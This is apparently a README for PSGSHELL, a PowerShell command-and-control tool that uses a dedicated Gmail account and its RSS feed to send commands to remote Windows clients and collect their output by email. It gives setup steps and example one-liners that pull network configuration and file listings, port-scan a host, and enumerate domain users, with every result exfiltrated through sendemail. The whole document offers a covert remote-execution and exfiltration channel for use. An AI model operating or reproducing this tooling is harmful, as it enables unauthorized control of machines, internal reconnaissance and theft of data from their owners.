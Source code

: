 # PSGSHELL

Setup:
Create a new gmail account for this and only this.
Allow non-secure apps

Both Scripts require that you set the email address and password variables at the top of the newly created gmail account.

Built for Powershell 2.0 (Win7) 

syntax is: 
To Return Output:

commander.ps1 '$variable = powershell oneliner; sendemail $variable ~host:host:host'

Without Returning output:

commander.ps1 'powershell oneliner ~host:host:host'


Examples: All One Liner commands

# Get IP address
.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434'

# List C drive contents and send them back to email
.\commander.ps1 '$var = get-childitem c:\; sendmail $var ~123434'

#port scan a host
.\commander.ps1 '$var = 1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "$_ is open"; sendemail $var ~123434'

# Get domain users (Net user /domain) but parsed for powershell output
.\commander.ps1 '$output = net user /domain;$output = $output[6..($output.length-3)];$output = $output -split "\s+" ;$output = $output | ? {$_}; sendemail $output ~123434'

# How it Works
This script utilizes the GMAIL rss feed "https://mail.google.com/mail/feed/atom" and parses the subject lines of the emails. 
The '~' is the delimiter between the powershell command at the front of the subject and the client names at the end.

.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434:343454:32233'

Currently the script accepts a single input that is the PS ONELINER, an optional sendmail, followed by the '~' and then $client_names which there can be multiple but should be seperated by colons.

